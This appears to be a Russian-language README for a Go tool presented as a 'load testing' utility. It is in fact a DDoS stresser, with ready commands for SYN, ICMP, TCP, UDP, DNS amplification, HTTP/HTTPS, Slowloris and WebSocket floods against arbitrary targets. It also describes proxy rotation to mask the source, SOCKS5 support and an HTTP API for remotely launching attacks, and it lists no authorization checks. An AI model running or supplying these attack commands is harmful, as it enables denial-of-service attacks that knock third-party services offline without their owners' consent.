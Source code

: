 # 🚀 Универсальный инструмент для нагрузочного тестирования (L3/L4/L7)

## 📋 Инструкция по использованию

### 🔧 Требования
- Установленный Go (версии 1.16+)
- Linux/Windows/MacOS
- Dоступ к интернету

### 📥 Установка
```bash
git clone https://github.com/yourrepo/stress-tool.git
cd stress-tool
go build -o stresser
```

### 🛠 Настройка

1. Создайте файл с прокси (если нужно):

```bash
echo "1.1.1.1:8080" > proxies.txt
echo "2.2.2.2:3128" >> proxies.txt
```

### 🎯 Запуск атак

#### 🔥 L3 Атаки (Сетевой уровень)
```bash
# SYN Flood
./stresser target.com:80 SYN 5000 60

# ICMP Flood (требует root)
sudo ./stresser target.com ICMP 3000 120
```

### 🌊 L4 Атаки (Транспортный уровень)

```
# TCP Flood
./stresser target.com:443 TCP 10000 300

# UDP Flood
./stresser target.com:53 UDP 8000 180

# DNS Amplification
./stresser dns-server.com DNS 5000 60
```

### 💻 L7 Атаки (Прикладной уровень)

```
# HTTP Flood
./stresser http://target.com HTTP 20000 600

# HTTPS Flood
./stresser https://target.com HTTPS 15000 300

# Slowloris
./stresser target.com:80 SLOWLORIS 500 3600
```

### 📊 Параметры запуска

```text
./stresser <цель> <тип атаки> <количество потоков> <время в секундах> [размер пакета]

Пример:
./stresser example.com:80 TCP 10000 60 1024
```

### 🧰 Дополнительные функции
```
1. **Автоповтор** - автоматически переподключается при обрывах
2. **Ротация прокси** - если указан файл proxies.txt
3. **Статистика в реальном времени** - показывает RPS и успешные запросы
```

### 🐞 Issue Checklist

[+] 1. Добавить поддержку WebSocket атак
[+] 2. Реализовать автоматическую проверку доступности цели перед атакой
[+] 3. Добавить вывод подробной статистики по каждому потоку
[+] 4. Поддержка IPv6 адресов
[+] 5. Реализовать возможность задания пользовательских HTTP-заголовков
[+] 6. Добавить логирование ошибок в отдельный файл
[+] 7. Поддержка SOCKS5 прокси
[+] 8. Реализовать автообновление списка прокси
[+] 9. Добавить возможность запуска нескольких атак одновременно
[+] 10. Реализовать API для удалённого управления атаками
[-] 11. Добавить тестирование производительности на разных ОС
[-] 12. Реализовать защиту от случайного запуска на localhost
[-] 13. Добавить поддержку пользовательских скриптов для L7 атак
[-] 14. Реализовать визуализацию статистики (графики)
[-] 15. Добавить возможность ограничения скорости (rate limit)
[-] 16. Реализовать автоматическую смену User-Agent
[-] 17. Добавить поддержку HTTP/2 атак
[-] 18. Реализовать интеграцию с Telegram для уведомлений
[-] 19. Добавить подробную документацию по каждому типу атаки
[-] 20. Реализовать модульные тесты для основных функций

---

## 📝 Гайд по расширенным функциям

### WebSocket атака

```bash
./stresser ws://target.com:8080 WEBSOCKET 1000 60
```

### Кастомные HTTP-заголовки

Передавайте 6-м аргументом строку вида:
```
"Header1:Value1;Header2:Value2"
```
Пример:
```bash
./stresser https://target.com HTTP 5000 120 2048 "X-Api-Key:123;X-Test:1"
```

### Поддержка SOCKS5 прокси

В файле proxies.txt указывайте адреса SOCKS5-прокси. Для активации SOCKS5 прокси установите переменную окружения:
```bash
export PROXY_TYPE=socks5
```

### Автообновление списка прокси

Файл proxies.txt перечитывается автоматически каждые 30 секунд. Просто обновите файл — новые прокси будут подхвачены.

### Логирование ошибок

Все ошибки пишутся в файл `errors.log` в корне проекта.

### Множественные атаки (через API)

Можно запускать несколько атак параллельно через HTTP API.

### HTTP API для управления атаками

- Запуск атаки:
  ```bash
  curl "http://localhost:8081/start?target=example.com&type=HTTP&threads=100&duration=60"
  ```
- Остановить атаку:
  ```bash
  curl "http://localhost:8081/stop"
  ```
- Статус:
  ```bash
  curl "http://localhost:8081/status"
  ```

---

Остальные задачи отмечены как [-] и будут реализованы в будущих версиях.
